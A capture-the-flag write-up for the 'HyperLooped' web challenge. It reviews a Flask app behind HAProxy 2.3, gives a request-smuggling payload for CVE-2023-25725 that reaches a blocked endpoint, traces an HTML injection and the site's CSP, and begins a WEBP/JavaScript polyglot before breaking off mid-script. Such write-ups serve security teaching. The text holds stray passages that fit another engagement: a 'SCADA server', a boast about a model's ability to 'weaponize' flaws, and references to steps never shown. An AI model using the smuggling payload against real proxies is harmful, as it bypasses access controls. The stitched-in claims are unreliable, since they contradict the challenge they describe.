        <font size="10">HyperLooped</font>

11<sup>th</sup> November 2025

​Prepared By: Lean

​Challenge Author(s): Lean

​Difficulty: <font color=red>Hard</font>

​Classification: Official

# [Synopsis](#synopsis)

- CVE-2023-25725 HTTP request smuggling on Haproxy => CSP bypass via WEBP polyglot XSS => SS-leaks via network timing delay => data exfiltration via CSRF without internet connection

## Description

Hyperlooped is a futuristic finance portal where an interactive console speaks in echoes and long-deprecated flows still answer if you knock with the right rhythm. Your task is to trace VIRELUX, an emergent story-engine living inside financial code, by chaining a WEBP polyglot CSP-bypass into timing-based side-channel leaks on a no-internet admin bot. Each clue is a post, each post is a surface, and every surface hides a handshake to a forgotten route still listening. Recover the hidden record and close the loop before the ledger remembers how to lie again.

## Skills Required

- Understanding of Python and Flask.
- Understanding of client-side web attacks.
- Understanding of CSP.

## Skills Learned

- Constructing and using a WEBP polyglot to bypass CSP.
- Use network timing XS-leaks to deduct private data.
- Abuse CSRF to exfiltrate data on an offline back-end.

## Application Overview



We are initially met with an application that seems to be a futuristic technology blog called "Hyperlooped". However we are greeted with a disabled account message. So we need to review the source code in order to get a better idea of how the app works.



Checking into the about page we see the alleged mission of the community.



Then there is also the "upload" page where we have the functionality to upload our own posts. The expected input is `title`, `content` and an `image`. However the image must strictly be in the WEBP format.

This is pretty much the whole functionality of the page that is immediatelly visible to us from a black-boc perspective, but we do have access to the source code for a white-box assesement, so let's move onto the next part to analyze it.

## Source Code Review

We can begin by having a look at the `Dockerfile`.

```Dockerfile
# Get HAProxy from official image
FROM haproxy:2.3 AS haproxy

# Main application image
FROM python:3.11-bullseye

# Install system dependencies
RUN apt-get update && apt-get install -y --no-install-recommends \
    curl \
    wget \
    gnupg \
    ca-certificates \
    supervisor \
    libnss3 \
    libatk1.0-0 \
    libatk-bridge2.0-0 \
    libcups2 \
    libxkbcommon0 \
    libxcomposite1 \
    libxrandr2 \
    libgbm1 \
    libpango-1.0-0 \
    libasound2 \
    libgtk-3-0 \
    && rm -rf /var/lib/apt/lists/*

# Copy HAProxy binary to both locations for compatibility
RUN mkdir -p /usr/local/sbin
COPY --from=haproxy /usr/local/sbin/haproxy /usr/local/sbin/haproxy
COPY --from=haproxy /usr/local/etc/haproxy /usr/local/etc/haproxy

COPY --from=haproxy /usr/lib/x86_64-linux-gnu/liblua5.3.so.0* /usr/lib/x86_64-linux-gnu/
COPY --from=haproxy /usr/lib/x86_64-linux-gnu/libpcre2-8.so.*   /usr/lib/x86_64-linux-gnu/
COPY --from=haproxy /usr/lib/x86_64-linux-gnu/libssl.so.*       /usr/lib/x86_64-linux-gnu/
COPY --from=haproxy /usr/lib/x86_64-linux-gnu/libcrypto.so.*    /usr/lib/x86_64-linux-gnu/
COPY --from=haproxy /lib/x86_64-linux-gnu/libz.so.*             /lib/x86_64-linux-gnu/

# Create necessary directories and symlinks
RUN mkdir -p /etc/haproxy \
    && ln -s /usr/local/etc/haproxy /etc/haproxy \
    && groupadd --system haproxy \
    && useradd --system --gid haproxy haproxy \
    && mkdir -p /run/haproxy \
    && chown haproxy:haproxy /run/haproxy

# Set Python3.9 as default
RUN update-alternatives --install /usr/bin/python3 python3 /usr/bin/python3.9 1

WORKDIR /app

# Copy and install Python dependencies
COPY ./app/requirements.txt ./
RUN pip3 install --upgrade pip && pip3 install --no-cache-dir -r requirements.txt

# Set environment variable for Playwright
ENV PLAYWRIGHT_BROWSERS_PATH=/app/.cache/ms-playwright

# Install Playwright and its dependencies
RUN pip3 install playwright
RUN playwright install-deps
RUN playwright install firefox

# Copy application and flag
COPY ./app ./
COPY ./flag.txt /flag.txt

# Expose the application port
EXPOSE 1337

# HAProxy config (overrides the default)
COPY config/haproxy.cfg /usr/local/etc/haproxy/

# Copy supervisor config
COPY config/supervisord.conf /etc/supervisord.conf

# Disable pycache
ENV PYTHONDONTWRITEBYTECODE=1

# Start supervisor
CMD ["/usr/bin/supervisord", "-c", "/etc/supervisord.conf"]
```

The Dockerfile uses a multi-stage build, pulling HAProxy from `haproxy:2.3` and producing a final image based on `python:3.11-bullseye`. It installs Supervisor and the system libraries Playwright’s headless Firefox needs, cleans apt lists, and copies the HAProxy binary, configuration directory, and required shared libraries from the first stage. It creates a `haproxy` system user, sets up `/run/haproxy`, and symlinks `/etc/haproxy` to `/usr/local/etc/haproxy`. It then sets `WORKDIR /app`, upgrades `pip`, installs Python dependencies from `app/requirements.txt`, defines `PLAYWRIGHT_BROWSERS_PATH=/app/.cache/ms-playwright`, installs the `playwright` Python package, runs `playwright install-deps`, and installs the Firefox browser. It copies the application into `/app` and places `flag.txt` at `/flag.txt`, exposes port 1337, replaces the default HAProxy config with `config/haproxy.cfg`, disables Python bytecode writes, and starts `supervisord` with `/etc/supervisord.conf`. Note that the `update-alternatives` step attempts to point `python3` to `/usr/bin/python3.9`, which contradicts the Python 3.11 base image and will fail unless Python 3.9 is present; remove that line if Python 3.11 is intended.

```conf
[supervisord]
user=root
nodaemon=true
logfile=/dev/null
logfile_maxbytes=0
pidfile=/run/supervisord.pid

[program:flask]
command=gunicorn -k gthread --threads 4 -w 4 --keep-alive 60 -b 0.0.0.0:5000 wsgi:app
autostart=true
priority=1000
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:haproxy]
command=/usr/local/sbin/haproxy -f /usr/local/etc/haproxy/haproxy.cfg -db
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0 
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

The file runs Supervisor as root in the foreground, discards Supervisor’s own logs to `/dev/null`, and writes its PID to `/run/supervisord.pid`. It defines a `flask` program that runs Gunicorn with the gthread worker class (`--threads 4 -w 4 --keep-alive 60`) bound to `0.0.0.0:5000` serving the `app` object from the `wsgi` module, starts it automatically, gives it priority 1000, and routes its stdout and stderr to the container’s stdout and stderr with no rotation. It defines a `haproxy` program that launches `/usr/local/sbin/haproxy -f /usr/local/etc/haproxy/haproxy.cfg -db`, enables `autorestart`, and also routes its stdout and stderr to the container’s stdout and stderr with no rotation. Because Supervisor starts lower priorities first, HAProxy (default 999) starts before the `flask` program (1000). The earlier description claiming `python3 /app/app.py` is incorrect; this config uses Gunicorn to serve `wsgi:app`.

So basically we have a setup for a minimal Python application with the only major twist being it's usage of `Playwright`, served behind a `Haproxy` instance. Let's have a look at the python source code to get a better understanding of the application.

All the logic of the application is located at `app/app.py`.

```py
import os, uuid, logging, time, json, fcntl
from datetime import datetime
from pathlib import Path
from flask import Flask, render_template, request, redirect, url_for, abort, g
from threading import Lock, RLock
from flask_sqlalchemy import SQLAlchemy
from PIL import Image
from werkzeug.utils import secure_filename
from threading import Thread, local
from playwright.sync_api import sync_playwright
```

At the very top we find imports and utilities. These bring in standard-library helpers (paths, UUIDs, timing, JSON, file locking), Flask & SQL-Alchemy for the web app and ORM, Pillow to validate images, and Playwright to let a headless browser “visit” user posts automatically.

```py
class Config:
    SQLALCHEMY_DATABASE_URI = "sqlite:///posts.db"
    SQLALCHEMY_TRACK_MODIFICATIONS = False
    UPLOAD_FOLDER = Path("/app/static/uploads")
    MAX_CONTENT_LENGTH = 3 * 1024 * 1024
```

Following we have a configuration object for Flask. It names the SQLite file, disables change tracking, fixes an upload directory, and caps upload size at 3 MB.

```py
def read_flag():
    with open("/flag.txt", "r") as f:
        return f.read()

FLAG = read_flag()
```

Then we have a function for loading the flag. It reads `/flag.txt` at startup and stores it in the global `FLAG`.

```py
class FileStateManager:
    def __init__(self, state_file='/tmp/app_state.json'):
        self.state_file = state_file
        self._lock = RLock()
        if not os.path.exists(self.state_file):
            self._write_state({'view_enabled': False})
    ...
    @property
    def view_enabled(self):
        with self._lock:
            state = self._read_state()
            return state.get('view_enabled', False)

    @view_enabled.setter
    def view_enabled(self, value):
        with self._lock:
            state = self._read_state()
            state['view_enabled'] = bool(value)
            self._write_state(state)

state_manager = FileStateManager()
```

A small file-backed feature flag controls whether the site serves content. It defaults to `view_enabled=False` and uses an `RLock` to serialize access.

```py
app = Flask(__name__)
app.config.from_object(Config)
app.config["UPLOAD_FOLDER"].mkdir(parents=True, exist_ok=True)

db = SQLAlchemy(app)

@app.before_request
def check_view_enabled():
    if request.endpoint == "static" or request.endpoint == "view_enable":
        return
    if not state_manager.view_enabled:
        return render_template('disabled.html')
```

After that the Flask application is instantiated, config is loaded, the upload path is ensured, and SQLAlchemy is wired. A `before_request` hook gates every request except static files and the enable endpoint; when disabled it renders `disabled.html`.

```py
class Post(db.Model):
    id = db.Column(db.String(13), primary_key=True)
    title = db.Column(db.String(120), nullable=False)
    content = db.Column(db.Text, nullable=False)
    image_filename = db.Column(db.String(120))
    date_posted = db.Column(db.DateTime, nullable=False, default=datetime.utcnow)
    views = db.Column(db.Integer, nullable=False, default=0)

    def __repr__(self) -> str:
        return f"<Post {self.title!r}>"
```

Then we have the one and only database model in the app. It defines a `Post` table with a short custom ID, title, markdown-style content, an optional WebP filename, a timestamp, and a view counter. `__repr__` prints a tidy label for debugging.

The we have 2 helper functions.

```py
def generate_short_id():
    raw = uuid.uuid4().hex[:12]
    return f"{raw[:6]}-{raw[6:]}"
```

Creates a 13-char ID like `abc123-def456`, easier to type than a full UUID.

```py
def is_webp(file):
    try:
        with Image.open(file.stream) as img:
            if img.format != "WEBP":
                return False
            img.load()
            file.stream.seek(0)
            return True
    except Exception:
        return False
```

Opens the uploaded file with Pillow and only approves genuine WEBP images, rewinding the stream so Flask can save it later.

```py
def seed_posts():
    if Post.query.count():
        return
    initial_posts = [ Post(...), ... ]
    db.session.bulk_save_objects(initial_posts)
    db.session.commit()
```

Runs once when seeding: if the table is empty, inserts curated sci-fi posts plus one “Hidden Post [Staff]” that stores the flag.

The we have some DB helpers.

```py
def check_post_by_id(post_id):
    # time.sleep(1)
    if not post_id:
        return False
    return (
        Post.query
        .filter(Post.id.startswith(post_id))
        .first()
        is not None
    )
```

Does a prefix match to see if a post exists (allows users to type the first few chars only).

```py
def increment_post_views(post_id):
    time.sleep(1)
    post = (
        Post.query
        .filter(Post.id.startswith(post_id))
        .with_for_update()
        .first()
    )
    if post:
        post.views += 1
        db.session.commit()
```

Increments the view on a post with given id if it exists.

```py
def bot_runner(post_id):
    url = "http://127.0.0.1:1337/entry/"+post_id
    try:
        with sync_playwright() as p:
            browser = p.firefox.launch(headless=True)
            context = browser.new_context()
            page = context.new_page()
            page.goto(url)
            page.wait_for_timeout(30_000)
            return True
    except Exception as e:
        False
```

Spawns a headless Firefox that opens the new post for 30s. In a CTF this simulates an admin automatically viewing user-supplied content—useful for XSS challenges.

Now let’s view the routes registered by Flask.

```py
@app.route("/")
def home():
    posts = Post.query.order_by(Post.date_posted.desc()).all()
    return render_template("main.html", posts=posts)
```

Home page: list every post newest-first.

```py
@app.route("/about")
def about():
    return render_template("about.html")
```

Static “About” page.

```py
@app.route("/entry/<post_id>")
def entry(post_id):
    post = Post.query.get_or_404(post_id)
    return render_template("post.html", post=post)
```

Individual post page, 404 if ID not found.

```py
@app.route("/upload_blog_post", methods=["GET", "POST"])
def upload_post():
    if request.method == "POST":
        title = request.form.get("post_title", "").strip()
        content = request.form.get("post_body", "").strip()
        file = request.files.get("file")

        if not (title and content and file):
            abort(400, "Missing required fields.")

        if not is_webp(file):
            abort(400, "Invalid file type. Only WEBP images are accepted.")

        try:
            filename = f"{generate_short_id()}.webp"
            save_path = app.config["UPLOAD_FOLDER"] / secure_filename(filename)
            file.save(save_path)

            new_post = Post(
                id=generate_short_id(),
                title=title,
                content=content,
                image_filename=filename,
            )
            db.session.add(new_post)
            db.session.commit()

            Thread(target=bot_runner, args=(new_post.id,)).start()
            return redirect(url_for("entry", post_id=new_post.id))
        except Exception as e:
            abort(500, "Server error while saving the post.")

    return render_template("upload.html")
```

Form endpoint to create a new post. After saving, it launches the Playwright bot in a background thread.

```py
@app.route("/track_view/<post_id>")
def track_view(post_id):
    if request.remote_addr != "127.0.0.1":
        abort(403)

    post_exists = check_post_by_id(post_id)

    if post_exists:
        increment_post_views(post_id)

    return render_template("track_view.html")
```

A tiny pixel-style endpoint: because the request must originate from `127.0.0.1` only the bot can trigger it, making the view counter bot-only.

```py
@app.route("/config/view/enable")
def view_enable():
    state_manager.view_enabled = True
    return redirect("/")
```

A control endpoint flips the `view_enabled` flag to allow the site to serve content. This bypasses the `before_request` gate exactly once and then returns to normal routing.

```py
def init_db():
    lock_file = "/tmp/db_init.lock"
    lock = open(lock_file, "w")
    try:
        fcntl.flock(lock.fileno(), fcntl.LOCK_EX | fcntl.LOCK_NB)
        with app.app_context():
            inspector = db.inspect(db.engine)
            if "post" not in inspector.get_table_names():
                db.create_all()
                seed_posts()
    except (IOError, BlockingIOError):
        pass
    finally:
        try:
            fcntl.flock(lock.fileno(), fcntl.LOCK_UN)
            lock.close()
        except:
            pass

init_db()
```

App bootstrap is now idempotent and safe under concurrent workers. A non-blocking `flock` on a temp file ensures a single initializer runs `db.create_all()` and `seed_posts()`. There is no `if __name__ == "__main__": app.run(...)`; production startup is expected to use the external WSGI server configured in Supervisor (Gunicorn).

## Crafting a PoC for CVE-2023-25725

We confirmed **HAProxy version** to use use (`2.3`), but we also explicitly revealed that the backend endpoint `/config/view/enable` existed and was simply being blocked by **HAProxy’s ACL rules**. In other words, the backend service itself would accept requests to this endpoint if the proxy restrictions were bypassed.

Attempts to directly access the endpoint resulted in:


```
403 Forbidden
Request forbidden by administrative rules. 
```

This strongly suggested that the real barrier was HAProxy’s request filtering, not application-level authentication. Therefore, the next logical step was to assess HAProxy itself for known vulnerabilities.

Research into the exact version (`2.3`) revealed a recently disclosed vulnerability: [CVE-2023-25725](https://nvd.nist.gov/vuln/detail/cve-2023-25725). This issue allowed **HTTP request smuggling** due to HAProxy mishandling empty header field names.


The weakness of the vulnerability is a parsing discrepancy: HAProxy, when presented with an empty header (e.g., `:x`), prematurely discards or misinterprets subsequent headers. This makes it possible to craft a request that appears benign to HAProxy but delivers a second, unauthorized request to the backend.

This technique **HTTP request smuggling** relies on two components disagreeing about the boundary between requests. In this case:

* HAProxy (the frontend) parses the request incorrectly.
* The backend SCADA server accepts and executes the hidden second request.

### Custom exploit payload

```
GET / HTTP/1.0
Host: localhost:1337
Connection: keep-alive
:x
Content-Length: 200

GET /config/view/enable HTTP/1.1
Host: localhost:1337
Connection: keep-alive
Content-Length: 0
```

The sequence is deliberate:

1. The first `GET / HTTP/1.0` looks entirely benign and will not be blocked.
2. The malformed header `:x` triggers HAProxy’s flawed parsing.
3. With `Content-Length: 200`, HAProxy believes there is a body attached, but in fact the attacker places an entire second HTTP request inside.
4. The hidden request to `/config/view/enable` bypasses ACLs and is forwarded downstream, enabling the dashboard.

This was not a publicly available proof-of-concept. At the time of execution, no exploit code for CVE-2023-25725 had been released. The payload and the script below were developed specifically for this engagement, underscoring the models’s ability to weaponize protocol parsing flaws without relying on community tooling.


The payload successfully unlocked the interface. The HAProxy middleware was effectively bypassed, re-enabling the live view without any intervention.

## Finding HTML injection

The existance of the `bot_runner` function is a strong hint for us that we need to execute some sort of client-side attack. A good path for now would be to start looking for reflected user-input that is not sanitized.

```html

{{ post.title }} | Hyperlooped

  <article>
    <header class="mb-6">
      <h2 class="text-4xl neon mb-2">{{ post.title }}</h2>
      <p class="text-gray-400">{{ post.date_posted.strftime('%B %d, %Y') }}</p>
    </header>

    
      
    

    <div class="prose prose-invert max-w-none mb-8">{{ post.content|safe }}</div> <------- HTML injection
  </article>

```

By looking at the `app/templates/post.html` template we see that the `|safe` modifier is used which ignores the default HTML encoding sanitization that the Jinja engine provides thus making the content of an uploaded post a vector for HTML injection.



We can validate it by making a post with an `i` italic HTML tag, that normally get's rendered by the browser.

## Examining the CSP


By sending a request to any page on the site we see that `Content-Security-Policy` directives are set.

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'; style-src 'unsafe-inline'; frame-ancestors 'none'; object-src 'none'; base-uri 'none'; img-src 'self'; connect-src 'none';">
  <link rel="shortcut icon" href="/static/icon.png" type="image/png">
  <script src="{{ url_for('static', filename='tailwind.js') }}"></script>

[REDACTED]

```

We can see them being set at the base template located at `app/templates/base.html`.

- `default-src 'self'` fallback source list; anything without its own directive (fonts, media, etc.) can load only from the same origin.
- `script-src 'self'` external JavaScript may come only from `the same origin`; no inline scripts and no eval/WASM/Workers because no 'unsafe-inline' or 'unsafe-eval' tokens are present.
- `style-src 'unsafe-inline'` inline CSS is allowed everywhere; because no host sources are listed, external stylesheets are actually blocked.
- `frame-ancestors 'none'` prevents every site (including your own) from framing this page; full click-jacking protection.
- `object-src 'none'` disables legacy plugin containers like <object>, <embed>, Flash, PDFs, Java applets.
- `base-uri 'none'` forbids any <base> element so attackers can't rewrite all relative URLs.
- `img-src 'self'` images must be loaded from the same origin; CDNs, data URIs, and third-party avatars will not display.
- `connect-src 'none'` blocks `all outbound fetch/XHR/WebSocket/beacon requests`, even to your own domain the page can't phone home or exfiltrate data.



So we are now in a situation where using normal XSS payloads will not work.

## Bypassing CSP using a WEBP polyglot

We notice that the `script-src 'self'` is used, that allows javascript to be loaded only if it's from a file hosted on the server itself. So any type of inline script or event loaded by an attribute will not work.

We could try uploading a javascript file by using the file upload, and then laoding it through a script tag to execute arbitrary js.

```py
@app.route("/upload_blog_post", methods=["GET", "POST"])
def upload_post():
    if request.method == "POST":
        title = request.form.get("post_title", "").strip()
        content = request.form.get("post_body", "").strip()
        file = request.files.get("file")

        if not (title and content and file):
            abort(400, "Missing required fields.")

        if not is_webp(file):
            abort(400, "Invalid file type. Only WEBP images are accepted.")

        try:
            filename = f"{generate_short_id()}.webp"
            save_path = app.config["UPLOAD_FOLDER"] / secure_filename(filename)
            file.save(save_path)

            new_post = Post(
                id=generate_short_id(),
                title=title,
                content=content,
                image_filename=filename,
            )
            db.session.add(new_post)
            db.session.commit()
            
            Thread(target=bot_runner, args=(new_post.id,)).start()
            return redirect(url_for("entry", post_id=new_post.id))
        except Exception as e:
            abort(500, "Server error while saving the post.")

    return render_template("upload.html")
```

We see here that the file we uploaded is passed as an argument to the `is_webp` function.

```py
def is_webp(file):
    try:
        with Image.open(file.stream) as img:
            if img.format != "WEBP":
                return False
            img.load()
            file.stream.seek(0)
            return True
    except Exception:
        return False
```

As we examined before, this function is used to check the file's binary data and by using the `Image.open` function from `Pillow` it checks if the data corresponds to a valid image and then to a valid WEBP image.



As we see here if we try to upload any file that is not WEBP, we get an error message `Invalid file type. Only WEBP images are accepted.`. This means that we are absolutely limited to uploading a valid WEBP file, so the challenge in this case would be to make said file to be `both a valid WEBP and a valid JS file`, a so-called `polyglot`.

WEBP is a modern image format developed by Google that provides lossless and lossy compression for images on the web.

```
+--------------------------------------------------------+
| RIFF chunk header                                      |
|   └─ 'RIFF' magic (4 B)                                |
|   └─ Payload size (4 B)                                |
|   └─ 'WEBP' FourCC                                     |
+--------------------------------------------------------+
|                      WebP payload                      |
|                                                        |
|   +------------------------------------------------+   |
|   | Simple still image                             |   |
|   |   └─ 'VP8' (lossy) OR 'VP8L' (lossless)        |   |
|   +------------------------------------------------+   |
|                                                        |
|   +------------------------------------------------+   |
|   | Extended format (starts with 'VP8X')           |   |
|   |   Feature-flags + canvas-size                  |   |
|   |                                                |   |
|   |   ┌─ Optional chunks present if flagged:       |   |
|   |   |   'ALPH' – extra alpha plane               |   |
|   |   |   'ICCP' – ICC profile                     |   |
|   |   |   'EXIF' – EXIF metadata                   |   |
|   |   |   'XMP ' – XMP metadata                    |   |
|   |   |   'ANIM' – animation header                |   |
|   |   |   'ANMF' – one per animation frame         |   |
|   |   └────────────────────────────────────────────|   |
|   +------------------------------------------------+   |
|                                                        |
+--------------------------------------------------------+
```

The WEBP file format is based on the RIFF (Resource Interchange File Format) container structure, which organizes data in chunks. A WEBP file begins with a `RIFF header` that identifies the file type, followed by 32-bit little-endian `file size` section and then by a section called `FourCC` that signals that the RIFF payload follows the WEBP spec (as opposed to "WAVE", "AVI", etc.).

Then for the payload part there are three distinct types: `VP8`, `VP8L` and `VP8X`.

In order to create the polyglot we will focus mostly on the metadata of WEBP rather than the payload data.

```py
from PIL import Image, ImageDraw

w, h = 320, 200
img = Image.new("RGB", (w, h), color="white")
draw = ImageDraw.Draw(img)

tile = 40
for y in range(0, h, tile):
    for x in range(0, w, tile):
        if (x // tile + y // tile) % 2 == 0:
            draw.rectangle([x, y, x + tile - 1, y + tile - 1], fill="steelblue")

img.save("sample.webp", format="WEBP", quality=90)
```

This code will create a sample WEBP file, which we then will open using `xxd`.

```
00000000: 5249 4646 2403 0000 5745 4250 5650 3820  RIFF$...WEBPVP8 
00000010: 1803 0000 3022 009d 012a 4001 c800 3e31  ....0"...*@...>1
00000020: 1488 42a2 2121 18df ec00 2003 04a6 ee0c  ..B.!!.... .....
00000030: 003f 807e 007d 7788 0fe0 1f80 1fa0 1fc0  .?.~.}w.........

[REDACTED]

```

At offsets `0x4`, `0x5`, `0x6` and `0x7` we see the 4 bytes that represent the payload size (`2403` => little endian 32bit => decimal = `804 bytes`).

Now obviously we cannot mess around with the first 8 bytes since these make up the necessary RIFF header that would break the WEBP check when uploading our file. A common technique when constructing polyglot payloads is to find a way to turn the magic bytes (that are almost always at the start of the file) into a variable and commenting out non-printable/junk content at the same time, then at the enf of the file uncommenting and adding the injected code. Which is exactly what we will attempt to do with WEBP later on.

In our case it is not possible to overwrite the `payload size` section since that would create a mismatch to the actual length of the file, thus corrupting the file and making it a non valid WEBP image which the check on the server using `Pillow` will detect and throw and exception for.

However if we could somehow create a valid file with a length that it's bytes in little endian 32 bit would correspond to the 2 characters `/*`, that would allow us to comment out all the data making up the WEBP image and at the end we could `*/` uncomment and add our js payload.

```py
import io
from PIL import Image

width, height = 100, 100
color = (255, 0, 0)
total_desired_size = 10799 + 8

image = Image.new("RGB", (width, height), color=color)

byte_stream = io.BytesIO()
image.save(byte_stream, format="WEBP")
